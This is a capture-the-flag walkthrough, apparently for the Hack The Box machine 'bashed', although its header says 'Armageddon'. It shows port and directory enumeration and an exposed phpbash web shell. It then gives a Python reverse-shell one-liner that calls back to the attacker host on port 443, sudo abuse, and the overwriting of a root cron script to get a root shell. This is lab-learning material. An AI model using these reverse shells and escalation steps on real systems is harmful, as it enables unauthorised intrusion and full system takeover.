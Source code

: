 # \_\__LeeCyberSec_\_\_
| About | **Hack The Box - Armageddon** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.68

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.68 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 09:54 +07
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds

### Web Enumeration (80) ############################
```

### Apache httpd 2.4.18

List of the hidden using `gobuster` and I try to enum in the hidden url.

```
[+] Files and directories
gobuster dir -k -u http://10.10.10.68:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
<snip>
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
```

At uri `/dev`, I got 2 file which is phpbash command shell.

![](images/2.png)

## Foothold

### phpbash execute shell

At url `http://10.10.10.68/dev/phpbash.php`, I try some reverse shell with `bash`, `nc` but it's not work. When I run `python reverse shell` and I got it.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

At listener, I got reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.2:29.2]~/walkthrough/hackthebox/bashed
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34342
www-data@bashed:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Sudo Access

After running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS), I got the sudo access to run command with scriptmanager's permission without password. 

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Let's run `/bin/bash` to get the shell.

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

### Crontab File overwrite

I try to monitor process with [pspy32](https://github.com/DominicBreuker/pspy/blob/master/README.md). The results show that there are process run all python file in folder `scripts` as root.

```
scriptmanager@bashed:/tmp$ ./pspy32
<snip>
2021/04/05 21:01:04 CMD: UID=0    PID=18391  | /bin/bash 
2021/04/05 21:01:04 CMD: UID=0    PID=18390  | python test.py 
2021/04/05 21:01:04 CMD: UID=0    PID=18389  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

And script `test.py` owned by scriptmanager, and we can modify it.

```
scriptmanager@bashed:/scripts$ ls -lh
ls -lh
total 12K
-rw-r--r-- 1 scriptmanager scriptmanager 211 Apr  5 21:00 test.py
-rw-r--r-- 1 root          root           12 Apr  5 21:00 test.txt
```

Let's add python reverse shell to file test.py and waiting cronjobs execute it.

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /scripts/test.py
```

At listener, I got root shell.

```
┌──(Hades㉿10.10.14.5)-[1.3:27.7]~/scripting/priescal/monitor
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.68] 34304
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
root@bashed:~# cat /var/spool/cron/crontabs/root
cat /var/spool/cron/crontabs/root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.igz05b/crontab installed on Mon Dec  4 17:53:17 2017)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```